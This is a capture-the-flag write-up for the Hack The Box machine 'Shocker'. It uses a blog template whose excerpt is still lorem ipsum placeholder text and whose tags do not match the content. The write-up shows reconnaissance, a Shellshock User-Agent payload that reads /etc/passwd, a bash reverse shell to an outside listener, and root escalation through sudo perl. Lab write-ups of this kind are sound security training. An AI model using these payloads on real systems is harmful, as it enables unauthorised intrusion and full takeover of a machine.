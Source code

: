 ```yaml
---
layout: single
title: Shocker - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-19
classes: wide
header:
  teaser: /assets/images/htb-writeup-shocker/shocker_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-shocker/shocker_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/shocker]# nmap -Pn -n -sCV 10.10.10.56                                                                             (master✱)
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


  DIRB:
    + http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)

  NIKTO:
    Allowed HTTP Methods: GET, HEAD, POST, OPTIONS


2. Visiting the webpage there's an image of a blob with a hammer over him, saying "Don't bug me!".
    Binwalking the image gives nothing, so there's something hidden on the server.

    root@nidus:/git/htb/shocker# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh
      --- snip ---
      user                    [Status: 200, Size: 118, Words: 19, Lines: 8]

   As we find a .sh file on the server, we can try to see if shellshock is possible with this simple curl poc

   root@nidus:/git/htb/shocker# curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.10.10.56/cgi-bin/user.sh
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    lxd:x:106:65534::/var/lib/lxd/:/bin/false
    messagebus:x:107:111::/var/run/dbus:/bin/false
    uuidd:x:108:112::/run/uuidd:/bin/false
    dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
    shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash


3. We got code execution, grab yourself a reverse shell.

    root@nidus:/git/htb/shocker# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/4488 0>&1' http://10.10.10.56/cgi-bin/user.sh

    [root:/git/htb/shocker]# nc -lvnp 4488                                                                                            (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 47484
      bash: no job control in this shell
      shelly@Shocker:/usr/lib/cgi-bin$ whoami
        shelly
      shelly@Shocker:/usr/lib/cgi-bin$ cat ~/user.txt
        a66751f2be1833726a055593ef238628


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. There's nothing obvious in /home/shelly/, /tmp/, /opt/ or /dev/shm/, lets run 'sudo -l' to check if we can exploit any binary.

shelly@Shocker:/dev/shm$ sudo -l
  Matching Defaults entries for shelly on Shocker:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User shelly may run the following commands on Shocker:
      (root) NOPASSWD: /usr/bin/perl

  shelly@Shocker:/dev/shm$ sudo perl -e 'exec "/bin/sh";'
  # whoami
    root
  # cat /root/root.txt
    fabc18579c97f3e07d51ac084d01d6fb


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
